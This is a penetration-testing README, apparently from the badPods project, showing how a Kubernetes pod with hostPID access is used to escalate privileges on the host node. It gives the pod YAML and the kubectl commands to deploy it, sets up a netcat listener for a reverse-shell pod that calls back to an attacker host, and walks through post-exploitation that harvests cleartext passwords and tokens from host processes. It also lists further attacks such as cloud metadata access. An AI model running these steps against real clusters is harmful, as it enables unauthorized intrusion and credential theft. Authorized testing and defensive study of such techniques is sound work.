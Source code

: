 ## You can create a pod with only hostPID

You are exploiting the fact that there are no polices preventing the creation of pod with access to the node's filesystem. You are going to create a pod and gain full read/write access to the filesystem of the node the pod is running on. 


# Pod Creation

### Create a pod you can exec into
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-hostpid
  labels:
    app: hostpid
spec:
  hostPID: true
  containers:
  - image: ubuntu
    command:
      - "sleep"
      - "604800"
    imagePullPolicy: IfNotPresent
    name: hostpid
  # Force scheduling of your pod on master mode by uncommenting this line and changing the name
  #nodeName: k8s-master
  restartPolicy: Always
  ```
[pod-priv-only.yaml](pod-priv-only.yaml)

#### Option 1: Create pod from local yaml 
```bash
kubectl apply -f pod-hostpid-only.yaml   
```

#### Option 2: Create pod from github hosted yaml
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/hostpid-only/pod-hostpid-only.yaml  
```

### Exec into pod 
```bash
kubectl -n [namespace] exec -it pod-hostpid-only -- bash
```

### Or, create a reverse shell pod
[pod-hostpid-only-revshell.yaml](pod-hostpid-only-revshell.yaml)

#### Set up listener
```bash
nc -nvlp 3116
```

#### Create the pod
```bash
# Option 1: Create pod from local yaml without modifying it by using env variables and envsubst
HOST="10.0.0.1" PORT="3116" 
envsubst < ./yaml/hostpid-only/pod-hostpid-only-revshell.yaml | kubectl apply -f -
```

#### Catch the shell and chroot to /host 
```bash
~ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
```


# Post exploitation
```bash
# View all processes running on the host and look for passwords, tokens, keys, etc. 
# Check out that clear text password in the ps output below! 

ps -aux
...omitted for brevity...
root     2123072  0.0  0.0   3732  2868 ?        Ss   21:00   0:00 /bin/bash -c while true; do ./my-program --grafana-uername=admin --grafana-password=admin; sleep 10;done
...omitted for brevity...

# Also, you can also kill any process, but don't do that in production :)
```


#### Attacks that apply to all pods, even without any special permissions
* Cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate Impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the pentration test.

